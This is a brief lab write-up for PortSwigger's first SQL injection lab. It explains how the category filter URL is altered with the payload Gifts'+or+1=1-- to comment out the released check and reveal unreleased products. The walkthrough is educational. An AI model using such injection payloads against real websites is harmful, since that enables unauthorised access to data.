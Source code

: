 ```yaml
---
title: Lab 1 SQL Injection - Port Swigger

---
```


# Lab 1 SQL Injection - Port Swigger

## Statement
This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following: 

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products. 

## Solution

We can inject text into the query to bypass the condition `released = 1`. The page link is:

https://0acf003a0407a665c49a09c0008600c2.web-security-academy.net/filter?category=Gifts

The category is included directly in the link, and we can modify the query to:

`SELECT * FROM products WHERE category = 'Gifts' OR 1=1-- AND released = `

The text after `--` is interpreted as a comment, so in this case, `AND released = 1 is not processed by SQL.

We need to change the link so that the query is as above:

https://0acf003a0407a665c49a09c0008600c2.web-security-academy.net/filter?category=Gifts'+or+1=1--

Now we can see all products on the page, both released and unreleased.